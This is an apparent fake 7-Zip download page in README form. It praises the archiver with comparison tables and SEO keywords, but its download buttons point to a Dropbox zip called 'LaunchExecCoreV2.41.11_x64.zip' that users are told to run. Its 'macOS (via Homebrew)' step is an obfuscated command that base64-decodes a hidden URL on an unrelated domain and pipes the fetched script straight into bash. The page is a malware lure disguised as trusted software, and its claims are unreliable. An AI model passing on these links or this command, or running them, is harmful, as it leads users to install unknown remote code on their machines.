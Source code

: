 # 7-Zip — High-Performance Open-Source File Archiver

[(https://upload.wikimedia.org/wikipedia/commons/thumb/3/32/7-Zip_Icon.svg/1200px-7-Zip_Icon.svg.png)](https://upload.wikimedia.org/wikipedia/commons/thumb/3/32/7-Zip_Icon.svg/1200px-7-Zip_Icon.svg.png
)

Unzip the archive to a separate folder and run the `.exe` file (Windows) or `.sh` file (macOS/Linux).

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## 📌 Overview
**7-Zip** is a free and open-source file archiver with a **high compression ratio**, known for its speed, reliability, and lightweight design. Developed by Igor Pavlov, it supports a wide range of file formats, including its own **7z format**, which offers superior compression efficiency compared to ZIP and RAR.  

Since its release, **7-Zip** has become the **gold standard** for archiving on Windows and is also available for Linux and macOS. Its combination of **performance, portability, and security** has made it the preferred choice for both home users and IT professionals.  

7-Zip integrates directly into the Windows context menu for quick operations, supports AES-256 encryption for secure archives, and can handle very large files with ease — up to **16 exabytes** in size (theoretically).  

---

## 🥇 Key Advantages Over Other Archivers

| Feature / Software     | **7-Zip** | WinRAR | WinZip | PeaZip |
|------------------------|----------|--------|--------|--------|
| Price                  | Free, Open Source | Paid (Trial) | Paid | Free |
| Compression Ratio      | Very High | High | Medium | High |
| 7z Format Support      | ✅        | ❌     | ❌     | ✅    |
| ZIP / RAR Support      | ✅        | ✅     | ✅     | ✅    |
| AES-256 Encryption     | ✅        | ✅     | ✅     | ✅    |
| Portable Version       | ✅        | ❌     | ❌     | ✅    |
| Multi-threading        | ✅        | ✅     | ❌     | ✅    |
| Large File Support     | ✅        | ✅     | ✅     | ✅    |
| Context Menu Integration| ✅       | ✅     | ✅     | ✅    |
| Open Source            | ✅        | ❌     | ❌     | ✅    |

---

## 🎯 Why Choose 7-Zip?
- **Completely Free** — no licenses, no subscriptions.
- **Best Compression Ratio** in 7z format.
- **Extremely Fast** with multi-threaded compression.
- **Secure** — AES-256 encryption for 7z and ZIP formats.
- **Lightweight** — installer under 2MB.
- **Portable** — runs without installation.
- **Multi-Format Support** — 7z, ZIP, RAR, TAR, GZ, BZ2, XZ, ISO, and more.
- **Cross-Platform** — available for Windows, Linux, and macOS.

---

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## ⚙️ Installation
Download and run the installer, then follow the setup wizard.

# macOS (via Homebrew):
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
---

## 🔍 SEO Keywords
7zip download, 7zip free, 7zip windows, 7zip mac, 7zip linux, free file archiver, best compression software, 7zip portable, 7zip vs winrar, 7zip 64 bit, 7zip 32 bit, open source archiver, 7zip aes256 encryption, 7zip rar extractor, 7zip zip compression, 7zip iso extractor, 7zip free download latest version, high compression archiver, 7zip command line, 7zip large file support
